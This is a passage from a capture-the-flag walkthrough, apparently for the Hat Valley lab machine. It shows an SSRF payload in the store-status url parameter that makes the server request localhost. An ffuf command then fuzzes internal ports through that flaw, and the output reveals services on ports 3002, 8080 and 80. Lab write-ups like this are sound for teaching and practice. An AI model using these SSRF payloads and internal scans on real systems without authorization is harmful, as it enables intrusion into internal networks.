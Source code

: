 1) First, I try `localhost` URL with `80` port, and it is redirecting to [http://hat-valley.htb/](http://hat-valley.htb/)

```
http://hat-valley.htb/api/store-status?url="http://127.0.0.1:80" [http://hat-valley.htb/]
```

2) it is `vulnerable` to SSRF Now let's try to `enumerate` the ports which is running on the `internal network`, I use ffuf:
```
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u 'http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"' -fs 0


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://hat-valley.htb/api/store-status?url="http://127.0.0.1:FUZZ"
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

3002                    [Status: 200, Size: 77010, Words: 5916, Lines: 686, Duration: 121ms]
8080                    [Status: 200, Size: 2881, Words: 305, Lines: 55, Duration: 84ms]
80                      [Status: 200, Size: 132, Words: 6, Lines: 9, Duration: 80ms]
[WARN] Caught keyboard interrupt (Ctrl-C)

```

3) And we got `3 ports` running internally, let's check them 
---> Port: 3002 --> Express API documentation for the Hat Valley website. 
---> Port: 8080 --> Empty Page
---> Port: 80 --> Main page (http://hat-valley.htb/)

4) 3002 port give us the all API endpoints routes as well as their source code